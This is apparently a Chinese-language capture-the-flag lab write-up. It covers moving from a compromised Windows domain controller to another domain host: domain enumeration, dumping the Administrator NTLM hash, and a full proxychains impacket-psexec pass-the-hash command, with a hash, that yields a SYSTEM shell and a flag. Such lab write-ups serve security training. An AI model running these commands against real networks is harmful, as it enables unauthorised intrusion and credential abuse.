








## 前言

本文是在攻破`Windows Server 2016 DC`的基础上对`Windows PC 8089`进行攻击

## 信息收集

回到`WinServer 2016 DC`的`Meterpreter`上，进入shell，如果使用了代理导致进不去，请参考前面几篇文章



调整字符集，这样不会乱码

```
ipconfig /all
```



可以发现当前主机存在域

```
C:\Windows\system32>powershell  
PS C:\Windows\system32> Get-ADComputer -Filter *
```



```
C:\Windows\system32> systeminfo
```



可以看到这四台主机都在域内，而且域控是当前`meterpreter`的DC主机

对8098主机进行简单扫描，开放端口：80，135，139，445，3306，7680



其中`3306`端口我验证过了，应该是没有漏洞可以利用的，其余端口也是。

因为存在`135`、`445`端口，可以尝试内网**PTH（pass-the-hash）**攻击

在DC的`Meterpreter`里进行hashdump，拿到`Administrator`的hash



域控的权限：**域管理员**（Domain Admins）组的成员可以在域内的任何计算机上登录

## PTH攻击

这里使用kali自带的`impacket-psexec`就行

```
proxychains impacket-psexec AEROSPACE/Administrator@172.22.10.40 -hashes "aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2"
```



可以看到成功进入到Shell，如果编码乱了就执行`chcp 65001`



并且由于具有最高权限，在Alice的目录下拿到flag03
